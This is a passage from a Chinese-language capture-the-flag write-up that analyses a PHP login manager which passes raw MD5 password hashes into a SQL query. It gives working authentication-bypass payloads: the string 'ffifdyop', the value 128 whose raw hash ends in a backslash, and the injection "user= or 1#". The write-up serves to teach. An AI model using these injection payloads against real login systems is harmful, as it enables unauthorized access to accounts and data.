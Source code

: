 ```php
    public function sanitizeInput($input) {
        return addslashes($input);
    }
}

$auth = new RealSecureLoginManager(
    $_POST['user'],
    $_POST['passwd']
);

if (!$auth->isValid()) {
    exit;
}
```

有 `sql` 语句，极有可能是注入题， `user` 被转义，注意到 `md5($this->passwd, true)` ，想起了一个 [注入题](http://web.jarvisoj.com:32772/)。

```php
md5 ( string $str [, bool $raw_output = FALSE ] ) : string
raw 为 TRUE 时为 16 字符二进制格式，默认为 32 字符十六进制数
```

### payload

> hint: "select * from admin where password='".md5($pass,true)."'"
>
>
> 参考 https://joychou.org/web/SQL-injection-with-raw-MD5-hashes.html
>
> ​         http://www.am0s.com/functions/204.html
>
> 有个牛逼的字符串： ffifdyop，传入之后，最终的 sql 语句变为 
>
> select * from admin where password=''or'6�]��!r,��b' 成功闭合，得到万能密码

这还有一个有趣的数字——`128`

```shell
➜  ~ php -r "var_dump(md5(128, true));"
string(16) "v�an���l���q��\"
```

可以看到末尾出现了一个 `\` ，将把 `‘` 吃掉，再结合一下 `user= or 1#`

最终将形成这样的语句

```sql
where password='v�an���l���q��\' AND user = ' or 1#
```



## 18 - Sign

> openssl_verify
